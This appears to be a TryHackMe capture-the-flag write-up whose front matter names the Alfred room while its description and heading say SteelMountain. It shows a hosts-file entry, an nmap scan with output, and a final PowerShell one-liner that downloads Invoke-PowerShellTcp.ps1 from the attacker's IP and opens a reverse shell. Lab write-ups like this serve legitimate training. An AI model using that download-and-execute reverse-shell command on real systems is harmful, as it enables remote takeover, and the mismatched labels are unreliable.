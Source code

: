 ```yaml
---
title: TryHackMe - Alfred w/o Metasploit
date: 2023-09-25
author: Abhinav Kumar
image: {
  src: "/images/tryhackme-steelmountain.jpg",
  alt: "THM SteelMountain Writeup",
}
description: TryHackMe SteelMountain is a Windows box where we exploit Unquoted Service Paths, replace the service to get System user.
draft: false
category: TryHackMe
---
```


# SteelMountain

TryHackMe Link to SteelMountain Machine - [THM-SteelMountain](https://tryhackme.com/room/steelmountain)


We will Solve the Machine Completely and post that Answer to the Questions on TryHackMe in the end.


Adding machine to hosts file.
```bash
abhinav@ETHICALHACKX:~$ echo 10.10.145.60    alfred.thm | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.145.60 alfred.thm
```


## Nmapping 

```bash
abhinav@ETHICALHACKX:~$ ports=$(nmap -p- --min-rate=1000 -T5 alfred.thm | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//')
                                                                                                            
abhinav@ETHICALHACKX:~$ echo $ports
80,3389,8080
                                                                                                            
abhinav@ETHICALHACKX:~$ sudo nmap -sC -sV -A -O -T5 -p$ports alfred.thm -Pn
[sudo] password for abhinav: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-07 23:15 IST
Nmap scan report for alfred.thm (10.10.145.60)
Host is up (0.17s latency).

PORT     STATE SERVICE        VERSION
80/tcp   open  http?
3389/tcp open  ms-wbt-server?
8080/tcp open  tcpwrapped
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Timing level 5 (Insane) used
No OS matches for host

TRACEROUTE (using port 3389/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 125.27 seconds
                              
```

powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.58.66:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.58.66 -Port 1234
